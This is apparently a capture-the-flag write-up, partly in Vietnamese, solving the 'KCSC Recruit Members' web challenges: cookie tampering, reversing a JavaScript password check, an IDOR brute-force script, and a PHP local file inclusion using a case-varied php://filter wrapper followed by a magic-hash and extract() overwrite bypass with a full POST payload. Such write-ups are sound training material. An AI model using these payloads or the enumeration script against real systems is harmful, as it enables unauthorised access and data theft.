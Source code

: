## KCSC Recruit Members 

## Robot

Challenge lụm flag

**Part 1**: `KCSC{C0r0n4_` --> source-code

**Part 2**: `v1ru22_1s_` --> robots.txt 

**Part 3** : `g0n3_n0w!!}` --> disallowed: /vaccine.php --> /vaccine -> cookies:vaccine=0 --> vaccine=1 

**Flag**: `KCSC{C0r0n4_v1ru22_1s_g0n3_n0w!!}`

## 2. Warm Up

```javascript
    const checkPassword = () => {
      const v = document.getElementById("password").value;
      const p = Array.from(v).map(a => 0xCafe + a.charCodeAt(0));
      if(p[0] === 52043 &&
         p[6] === 52063 &&
         p[5] === 52075 &&
         p[16] === 52076 &&
         p[9] === 52067 &&
         p[10] === 52063 &&
         p[4] === 52041 &&
         p[3] === 52067 &&
         p[8] === 52080 &&
         p[7] === 52037 &&
         p[2] === 52073 &&
         p[11] === 52082 &&
         p[12] === 52031&&
         p[13] === 52069 && 
         p[14] == 52063 && 
         p[15] == 52071 && 
         p[1] == 52063) {
        window.location.replace(v + ".html");
      } else {
        alert("Wrong password!");
      }
    }
```

`const p = Array.from(v).map(a => 0xCafe + a.charCodeAt(0));` : Lấy từng số trong string ra dưới dạng ascii code rồi cộng cho `0xcafe`. 0xcafe `hex2decimal` được `51966`. Sắp xếp lại possition rồi lấy `51966` trừ cho vế so sánh --> charcode --> password: `MakeKmaGreatAgain`

**flag**: `KCSC{j4v-a-SRript-i555-FUn}`

## DIOR

Viết láy của `IDOR - Insecure direct object references`: arises when an application `uses user-supplied input` to access objects `directly`.

![any](idor.png)

`Brute-force` flag thôi:
```python
import requests

url = 'http://45.77.39.59/?number='

for i in range(2000):
  r = requests.get(url + f'{i}')
  if 'KCSC{' in r.text:
    print(r.text)
    break
```

**flag**: `KCSC{Gud_luckkkkk__brooo}`

## Magic PHP

Web app: 1 page login -> only admin see flag, another look like vulnerable to LFI.

http://45.77.39.59/?page=secret

Thử trigger LFI đọc `/etc/passwd` file:
```
Warning: include(/etc/passwd.php): Failed to open stream: No such file or directory in /var/www/html/index.php on line 14

Warning: include(): Failed opening '/etc/passwd.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 14
```
Add extension --> `null byte` --> *yes!!*

**payload read index.php file**: `pHp://filter/convert.base64-encode/resource=index`

*case-sensitive for bypass!!*
`index.php`
```php
<?php
    if (isset($_GET['page']) && !empty($_GET['page'])){
        $page = $_GET['page'];
        if(strpos($page, 'php') !== false){
          die("<center>Don' hack me ! Stop !!!</center>");
      }
      elseif (strpos(strtolower($page), 'flag')  ) {
        die("<center>Don' hack me ! Stop !!!</center>");
      }
    }
    else{
        $page = "login";
    }
    include ($page.".php");
?>
```

Đoạn này chẳng có gì nhiều, ngồi đục include to RCE thì là hỏng, chú ý khi không set `page` paramteter thì login sẽ redirect to `login.php`(đọc cho kĩ source-code jump!!).

`pHp://filter/convert.base64-encode/resource=login`

```php
<?php 
    
    include ("flag.php"); //real flag in $flag

  if ($_SERVER['REQUEST_METHOD'] == "POST") {
    if(!empty($_POST) && isset($_POST['user']) && isset($_POST['pass'])){
      $password = random_int(10000000, 99999999);
      extract($_POST);
      $user_hash ='0e902564435691274142490923013038' ;
  
      if (md5($user) == $user_hash && $password === $pass){
        echo $flag;
        die();
      }else{
        die("Only admin have flag !!");
      }
    }
  }
?>
```
Trông dễ ăn đó, với user_hash thì encrypt interger to 0e(0 mũ = 0) là bypass được --> `0e1137126905:0e291659922323405260514745084877`

Hàm extract() extract any variable in POST array. Và nó được gọi sau `$password` variable tức mình có thể ghi đè!!

full payload(POST): `user=0e1137126905&password=123&pass=123`

**flag**: `KCSC{LFI_to_loose_comparison@@}`
